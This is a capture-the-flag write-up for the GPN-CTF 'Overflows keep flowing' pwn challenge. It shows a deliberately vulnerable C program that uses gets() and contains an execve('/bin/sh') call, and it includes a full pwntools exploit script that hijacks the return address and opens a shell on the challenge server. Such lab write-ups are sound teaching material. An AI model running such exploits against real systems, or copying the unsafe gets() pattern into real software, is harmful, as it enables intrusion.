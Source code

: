 ```yaml
---
title: "GPN-CTF: Overflows keep flowing" 
date: 2023-06-11 12:41:00 +0300
categories: ["pwn", "buffer overflows"]
tags: ["easy",'ctf' , "kitctf", "gpn-ctf", "intro-to-pwn"]
author: calvin-kimani
---
```


>This is the sequel to [overflows in the fl4gtory](./2023-06-10-GPN-CTF-overflow-in-the-fl4gtory-writeup.md)
{: .prompt-tip }

# Overflow in the Fl4gtory
## Challenge Description:

The "Overflows keep flowing" challenge presents a vulnerable program with a simple buffer overflow vulnerability. The objective is to exploit this vulnerability to gain control over the program and gain `remote code execution` by calling `execve` within the program, which will grant access to the flag.

![challenge desc](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/overflows-keep-flowing-desc.png)


### Vulnerable Code:
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflows-keep-flowing overflows-keep-flowing.c

void shutoff(long long int arg1) {
	printf("Phew. Another accident prevented. Shutting off %lld\n", arg1);
	if (arg1 == 0xdeadbeefd3adc0de) {
		execve("/bin/sh", NULL, NULL);
	} else {
		exit(0);
	}
}

int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

## Vulnerable code explanation
The program hasn't changed that much from its predecessor. There's still the vulnerable buffer `buf`. The user is still prompted/required to enter input by the use of `gets` **(man gets)** where the input is then stored in buf and the written input displayed to the user by use of `puts(buf)` **(man puts)**

There's a new 'safety check' which we will gladly bypass. The shutoff function when called, checks whether it's one and only argument `arg1` is equal to the value of `0xdeadbeefd3adc0de` which in decimal is "1.6045691e+19". If they are equal, `execve` **man execve** from the standard library is called with `"/bin/sh"` as the program to run with no commandline arguments as seen by `NULL`. We can bypass this whole check by calling `execve` directly instead of `shutoff` as we did earlier. So we first need to know where it's located.

We fire up `gdb` with `gef` to search for it.

![gdb output](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/gdb.png)

>We could have pwned the binary by also just loading the `arg1` buffer with the required value but why complicate stuff. I'll explain how we can overwrite arguments with the desired value in a future post.
{: .prompt-tip }

## Exploitation

We know when a function is called during program execution, the called function's arguments are pushed on the stack in the reverse order of how they're declared! So we can't call `execve` directly because it will fail as it doesn't have it's required arguments. So we need to go back a few instructions to where it's arguments are being loaded in the right registers before it's called.
From the gdb output we can see this is 56 addresses from shutoff's addresses. Now we need to overwrite the ret with this address !!

We use the pwn library in Python to assist in building the payload and interacting with the target program.

```python
from pwn import *

context.terminal = ["konsole", "-e"]  # Substitute your terminal

# Find the location of the shutoff functions
elf = ELF("./overflows-keep-flowing")
shutoff_addr = elf.symbols["shutoff"]

# Craft the payload
payload = b"A" * 264
payload += p64(shutoff_addr+56)

# Launch the process and send the payload
# process = process("./overflows-keep-flowing")
# process.sendline(payload)
# process.interactive()

# remote server
target = remote('overflows-keep-flowing-0.chals.kitctf.de', 1337, ssl=True)
target.sendline(payload)

# Profit $$
print(target.recv())
target.interactive()
```

### reading the flag

After constructing the payload, we establish a connection to the target server using the provided IP address and port. We then send the payload to the program. Upon successful exploitation, the shutoff() function will be executed, and we can read the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/overflows-keep-flowing.png)

By leveraging the buffer overflow vulnerability in the "Overflows keep flowing" challenge, we successfully gained control over the program's execution flow and executed the shutoff() function to obtain the flag.


>Happy hacking :)
{: .prompt-tip }